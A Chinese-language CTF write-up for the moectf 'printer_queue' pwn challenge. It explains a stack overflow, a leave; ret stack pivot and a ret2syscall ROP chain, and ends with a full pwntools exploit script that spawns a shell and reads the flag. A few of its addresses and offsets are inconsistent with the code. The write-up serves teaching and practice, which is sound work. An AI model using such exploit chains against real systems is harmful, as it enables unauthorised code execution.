

# 自助打印机 - WriteUp  

> [!TIP]
> :heavy_check_mark: 完整 exploit 代码见[此处](../code/exploits/printer_queue.py)  

> 本题知识点：  
> :star::star: 基本ROP链的构造  
> :star::star::star::star: 栈迁移
>
> 综合难度： :star::star::star::star:

## 初步检查

拿到手先**checksec**一下：  
```bash
$ checksec --file=printer_queue
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   2004 Symbols      No    0               0               printer_queue
```  
**PIE**没开，可能是**ROP**相关的解法。  

反编译一下，发现代码的逻辑如下：  
1. 读取2个字节作为长度 $len$（小端序）  
2. 读取 $len$ 字节，存入 **.bss** 段的 $printer\_queue$ 中  
3. 调用`confirm_print_job`：读取 $40$ 字节，存在栈帧上的 $16$ 字节变量中（`rbp-10h`）  

以上过程中**没有**canary检查机制。  

## 漏洞分析

容易发现，`confirm_print_job`读取时溢出了 $\text{0x18}$ 字节，能容纳 $3$ 条 **gadget**。  

通过反编译发现该程序采用静态链接，**没有**直接的后门函数，也没有`system`和`execve`等 **ret2libc** 常用后门函数，应该是**ret2syscall**。  

**ROPgadget**过程省略，以下列出了需要的 **gadgets** ：  
|地址|gadget|
|-|-|
|0x401876|$\texttt{leave; ret}$|
|0x42149B|$\texttt{pop rax; ret}$|
|0x432E48|$\texttt{pop rdi; ret}$|
|0x402B86|$\texttt{pop rsi; ret}$|
|0x471A77|$\texttt{pop rbx; ret}$|
|0x41F83B|$\texttt{mov rdx, rbx; syscall}$|

## 栈迁移

### 引入

然而，这么多的 **gadgets** 显然是放不下的。  

还记得刚开始的输入吗？最多可以输 $\text{0x400}$ 个字节进去。如果可以用来存放 **gadgets** 就好了。  

这时候，就要利用**栈迁移**的手段了。  

### `leave`指令与调用约定

#### 调用约定

篇幅较长，不在此过多赘述，请移步至 [x86_64 汇编语言教程 - 子程序与调用约定](https://x86-64-assembly.readthedocs.io/zh-cn/latest/chapter_04_subroutines/index.html) 学习。  

#### `leave`指令与函数尾声

在函数主体执行完毕后，函数有义务恢复至调用前的栈帧，这就是函数尾声的作用。  

函数尾声一般由两条指令组成：  
```asm
leave   // 恢复栈帧
ret     // 跳转回caller
```  
这里的`leave`实际上等价于两条指令：  
```asm
mov rsp, rbp    // 回收分配的栈帧
pop rbp         // 恢复至旧rbp，此时rsp指向call压入的返回地址
```  
有时也会把`leave`直接展开为这两条指令写出。  

图解 `leave`
  

图解 `ret`
  

### 栈迁移

`leave`在恢复栈帧后，栈顶指针`rsp`会移至`rbp+8h`的位置，而`rbp`会移至栈帧里存储的**旧rbp地址**处。于是，我们可以通过 $2$ 次`leave; ret` **gadget** 来将`rsp`移到指定位置。  

第一次：将`rbp`移至目标地址  
第二次：将`rsp`移至`rbp+8`处  

> :warning: 注意这里的 **+8**，我第一次就漏掉导致了段错误  

## 解题

以下将第一次输入数据的地址称作 `queue_addr`。  

### 输入 #1

通过实际测试发现，靶机上使用了 **busybox**，因此使用 `execve` 时**必须**设置正确的*argv*和*envp*，我们可以在第一段输入的数据的前一段构造符合要求的**指针数组**传给`execve`：  
|偏移值|数据|长度|
|-|-|-|
|0x00|"/bin/sh", 0|0x08|
|0x08|0|0x08|
|0x10|**queue_addr** + 0x20|0x08|
|0x18|0|0x08|
|0x20|"sh",0,0,0,0,0,0|0x08|
|0x28|**ROP链**|-|

接下来是构造ROP链，目标为：  
```c
char argv[2][] = {"sh", NULL};
// syscall 0x3B
execve("/bin/sh", argv, NULL);
```  

构造 **ret2syscall** 的ROP链：  
|实际数据（补足8字节）|gadget或说明|
|-|-|
|0x42149B|$\texttt{pop rax; ret}$|
|0x3B|***execve的syscall号***|
|0x432E48|$\texttt{pop rdi; ret}$|
|0x4A9A80|***第一段输入数据的地址 `queue_addr`***|
|0x402B86|$\texttt{pop rsi; ret}$|
|0x4A9AE0|***queue_addr+0x10***|
|0x471A77|$\texttt{pop rbx; ret}$|
|0|***空指针***|
|0x41F83B|$\texttt{mov rdx, rbx; syscall}$|  

## 输入 #2

第二段便是简单的**栈溢出ROP**，先将缓冲区用垃圾数据填满，再覆盖目标位置，即 `queue_addr - 8` 处（因为第二次`leave; ret`后，`rsp`会指向`old_rbp+8`处）  

```python
payload2  = b'A' * 16
payload2 += p64(queue_addr + 32)
payload2 += p64(leaveret)
payload2 += p64(leaveret)
```  

## 最终 Exploit 脚本

```python
# 栈迁移
# syscall 0x3b: execve(filename, argv, envp)
# execve("/bin/sh", "sh", 0)

from pwn import *
context(os='linux', arch='amd64')

port = 0
r = remote('localhost', port) if port != 0 else process("./printer_queue")

queue_addr = 0x4A9A80
syscall = 0x401324      # syscall
raxret = 0x42149b       # pop rax; ret
rdxsyscall = 0x41f83b   # mov rdx, rbx; syscall
rbxret = 0x471a77       # pop rbx; ret
leaveret = 0x401876     # leave; ret
rdiret = 0x432e48       # pop rdi; ret
rsiret = 0x402b86       # pop rsi; ret
ret = 0x40101a          # ret

payload2 = b'A' * 16 + p64(queue_addr + 32) + p64(leaveret) + p64(leaveret)
payload1 = b'/bin/sh\0'             # +00
payload1 += p64(0)                  # +08
payload1 += p64(queue_addr + 32)    # +10
payload1 += p64(0)                  # +18
payload1 += b'sh\0\0\0\0\0\0'       # +20
payload1 += p64(raxret) + p64(0x3b) + p64(rdiret) + p64(queue_addr) + p64(rsiret) + p64(queue_addr + 16) + p64(rbxret) + p64(0) + p64(rdxsyscall)

r.sendafter(b'[printer] Send print queue data:\n', len(payload1).to_bytes(2, 'little'))
r.send(payload1)
r.sendafter(b'[printer] Confirm the print job with a 40-byte ticket:\n', payload2)

r.interactive()
```

```bash
$ cat /flag
moectf{printer_queue_stack_pivot}
```

200pts 到手！